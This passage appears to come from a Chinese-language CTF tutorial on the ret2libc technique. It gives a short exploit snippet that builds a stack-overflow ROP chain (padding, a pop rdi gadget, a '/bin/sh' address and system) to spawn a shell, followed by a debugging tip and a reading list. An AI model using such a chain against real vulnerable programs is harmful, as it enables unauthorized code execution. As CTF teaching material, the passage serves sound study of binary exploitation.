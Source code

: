 ```python
payload = 'a'*0x18
payload += p64(pop_rdi) + p64(bin_sh)
payload += p64(sys_addr)
o.sendline(payload)

o.interactive()
```

![image-20220318204245469](Self-help_Clown.assets/image-20220318204245469.png)

过程可以调试看看, 如果出错, 可以多想想, 多调试调试(调试yyds)

### 实战



### 参考

-   https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2libc
-   https://www.freebuf.com/news/182894.html
-   https://ctf101.org/binary-exploitation/what-are-calling-conventions/
-   https://zhuanlan.zhihu.com/p/111028312#:~:text=%E8%B0%83%E7%94%A8%E7%BA%A6%E5%AE%9A%EF%BC%88Calling%20Convention%EF%BC%89%E6%98%AF%E8%A7%84%E5%AE%9A%E5%AD%90%E8%BF%87%E7%A8%8B%E5%A6%82%E4%BD%95%E8%8E%B7%E5%8F%96%E5%8F%82%E6%95%B0%E4%BB%A5%E5%8F%8A%E5%A6%82%E4%BD%95%E8%BF%94%E5%9B%9E%E7%9A%84%E6%96%B9%E6%A1%88%EF%BC%8C%E5%85%B6%E9%80%9A%E5%B8%B8%E4%B8%8E%E6%9E%B6%E6%9E%84%E3%80%81%E7%BC%96%E8%AF%91%E5%99%A8%E7%AD%89%E7%9B%B8%E5%85%B3%E3%80%82,%E5%85%B7%E4%BD%93%E6%9D%A5%E8%AF%B4%EF%BC%8C%E8%B0%83%E7%94%A8%E7%BA%A6%E5%AE%9A%E4%B8%80%E8%88%AC%E8%A7%84%E5%AE%9A%E4%BA%86%20%E8%B0%83%E7%94%A8%E7%BA%A6%E5%AE%9A%E8%99%BD%E7%84%B6%E5%8F%AB%E2%80%9CConvention%22%EF%BC%8C%E4%BD%86%E5%B9%B6%E4%B8%8D%E5%83%8F%E5%A6%82%E2%80%9CCamelNaming%E2%80%9D%E4%B8%80%E6%A0%B7%E5%8F%AA%E6%98%AF%E4%B8%80%E7%A7%8D%E2%80%9D%E4%B9%A0%E6%83%AF%E2%80%9C%E3%80%82%20%E8%B0%83%E7%94%A8%E7%BA%A6%E5%AE%9A%E6%98%AF%E4%B8%8D%E5%90%8C%E4%BA%BA%E7%BC%96%E5%86%99%E7%9A%84%E6%B1%87%E7%BC%96%E7%A8%8B%E5%BA%8F%E8%83%BD%E6%AD%A3%E5%B8%B8%E9%85%8D%E5%90%88%E5%B7%A5%E4%BD%9C%E7%9A%84%E4%BF%9D%E8%AF%81%E3%80%82
-   《Linux二进制分析》
-   《程序员的自我修养 —— 链接、装载与库》
-   《二进制分析实战》
-   《CTF竞赛权威指南 Pwn篇》
